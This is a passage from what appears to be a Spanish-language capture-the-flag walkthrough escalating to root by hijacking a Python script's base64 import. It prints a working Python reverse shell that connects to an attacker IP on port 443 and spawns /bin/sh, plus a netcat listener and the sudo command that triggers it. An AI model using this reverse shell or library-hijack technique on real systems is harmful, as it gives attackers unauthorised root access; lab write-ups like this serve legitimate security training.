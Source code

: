 
`randombase64.py`
```python
import base64
message = input("Enter your string")
message_bytes = message.encode("ascii")
base64_bytes = base64.b64encode(message_bytes)
base64_message = base64_bytes.decode("ascii")


print(base64_message)




```
Vemos que podemos ejecutar como usuario `root` un `script Python`, el cual ingresas un texto y lo traduce a `base64`




Viendo su `código fuente` podemos determinar que es posible hacer una `reverse shell` en `Python` y pasarla, esto porque el script `randombase64.py` en su primera línea hace un `import base64`




Creamos un script python llamado `base64.py` con la siguiente instrucción:


```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.119",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```


Abrimos una terminal con `nc` en escucha por el `puerto 443`


<br>
![](/blog/assets/thehackerslabs.com_cyberpunk/paso_11.JPG)
<br>


Del lado del servidor ejecutamos la instrucción


```shell
sudo /usr/bin/python3.11 /home/arasaka/randombase64.py
```
